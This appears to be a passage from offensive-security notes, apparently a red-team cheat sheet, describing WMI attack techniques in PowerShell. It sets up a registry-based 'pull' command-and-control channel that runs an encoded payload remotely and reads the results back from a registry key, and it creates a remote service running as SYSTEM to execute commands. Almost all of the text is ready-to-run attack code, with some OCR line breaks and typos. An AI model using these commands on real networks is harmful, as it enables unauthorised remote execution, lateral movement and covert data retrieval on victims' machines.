 
#### WMI Attacks – C2 Communication (Registry) – “Pull” Attack
**First Step** - Registry Key creation
```
$Credential = Get-Credential 'CORP.local\admin'
$CommonArgs = @{
Credential = $Credential
ComputerName = '192.168.2.10'
}
$HKLM = 2147483650
Invoke-WmiMethod @CommonArgs -Class StdRegProv -Name CreateKey -ArgumentList $HKLM,
'SOFTWARE\EvilKey‘
Invoke-WmiMethod @CommonArgs -Class StdRegProv -Name DeleteValue -ArgumentList $HKLM,
'SOFTWARE\EvilKey', 'Result'
```

**Second Step** - Retrieving payload in registry
```
$PayloadText = @'
$Payload = {Get-Process lsass}
$Result = & $Payload
$Output = [Management.Automation.PSSerializer]::Serialize($Result, 5)
$Encoded = [Convert]::ToBase64String([Text.Encoding]::Unicode.GetBytes($Output))
Set-ItemProperty -Path HKLM:\SOFTWARE\EvilKey -Name Result -Value $Encoded
'@
$EncodedPayload = [Convert]::ToBase64String([Text.Encoding]::Unicode.GetBytes($PayloadText))
$PowerShellPayload = "powershell -NoProfile -EncodedCommand $EncodedPayload"
Invoke-WmiMethod @CommonArgs -Class Win32_Process -Name Create -ArgumentList $PowerShellPayload
$RemoteOutput = Invoke-WmiMethod @CommonArgs -Class StdRegProv -Name GetStringValue -
ArgumentList $HKLM, 'SOFTWARE\EvilKey', 'Result'
$EncodedOutput = $RemoteOutput.sValue
$DeserializedOutput =
[Management.Automation.PSSerializer]::Deserialize([Text.Encoding]::Ascii.GetString([Convert]::F
romBase64String($EncodedOutput)))
```



#### Command Execution Win32_Service
We can create a service on a remote machine using WMI to execute commands and scripts.  
```
$SericeType = [byte] 16
$ErrorControl = [byte] 1

Invoke-WmiMethod -Class Win32_Service -Name Create -ArgumentList $false, "Windows Performance", $ErrorControl, $null, $null, "WinPerf", "C:\Windows\System32\calc.exe", $null, $ServiceType, "Manual", "NT AUTHORITY\SYSTEM", ""
```

Start the previously created service
```
Get-WmiObject -Class Win32_Service -Filter 'Name = "WinPerf"' | Invoke-WmiMethod -Name StartService
```
